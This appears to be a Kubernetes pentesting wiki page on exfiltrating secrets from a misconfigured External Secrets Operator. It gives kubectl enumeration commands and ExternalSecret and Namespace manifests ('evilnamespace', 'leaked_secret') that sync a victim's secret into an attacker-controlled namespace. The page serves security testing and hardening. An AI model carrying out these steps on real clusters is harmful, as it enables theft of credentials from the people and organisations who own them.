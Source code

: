 # External Secret Operator

**The original author of this page is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

This page gives some pointers onto how you can achieve to steal secrets from a misconfigured ESO or application which uses ESO to sync its secrets.

## Disclaimer

The technique showed below can only work when certain circumstances are met. For instance, it depends on the requirements needed to allow a secret to be synched on a namespace that you own / compromised. You need to figure it out by yourself.

## Prerequisites

1. A foothold in a kubernetes / openshift cluster with admin privileges on a namespace
2. Read access on at least ExternalSecret at cluster level
3. Figure out if there are any required labels / annotations or group membership needed which allows ESO to sync your secret. If you're lucky, you can freely steal any defined secret.

### Gathering information about existing ClusterSecretStore

Assuming that you have a users which has enough rights to read this resource; start by first listing existing _**ClusterSecretStores**_.

```sh
kubectl get ClusterSecretStore
```

### ExternalSecret enumeration

Let's assume you found a ClusterSecretStore named _**mystore**_. Continue by enumerating its associated externalsecret.

```sh
kubectl get externalsecret -A | grep mystore
```

_This resource is namespace scoped so unless you already know which namespace to look for, add the -A option to look across all namespaces._

You should get a list of defined externalsecret. Let's assume you found an externalsecret object called _**mysecret**_ defined and used by namespace _**mynamespace**_. Gather a bit more information about what kind of secret it holds.

```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```

### Assembling the pieces

From here you can get the name of one or multiple secret names (such as defined in the Secret resource). You will an output similar to:

```yaml
kind: ExternalSecret
metadata:
  annotations:
  ...
  labels:
  ...
spec:
  data:
  - remoteRef:
      conversionStrategy: Default
      decodingStrategy: None
      key: SECRET_KEY
    secretKey: SOME_PASSWORD
    ...
```

So far we got:

- Name a ClusterSecretStore
- Name of an ExternalSecret
- Name of the secret

Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced ):

```yaml
kind: ExternalSecret
metadata:
  name: myexternalsecret
  namespace: evilnamespace
spec:
  data:
    - remoteRef:
        conversionStrategy: Default
        decodingStrategy: None
        key: SECRET_KEY
      secretKey: SOME_PASSWORD
  refreshInterval: 30s
  secretStoreRef:
    kind: ClusterSecretStore
    name: mystore
  target:
    creationPolicy: Owner
    deletionPolicy: Retain
    name: leaked_secret
```

```yaml
kind: Namespace
metadata:
  annotations:
    required_annotation: value
    other_required_annotation: other_value
  labels:
    required_label: somevalue
    other_required_label: someothervalue
  name: evilnamespace
```

After a few mins, if sync conditions were met, you should be able to view the leaked secret inside your namespace

```sh
kubectl get secret leaked_secret -o yaml
```

## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



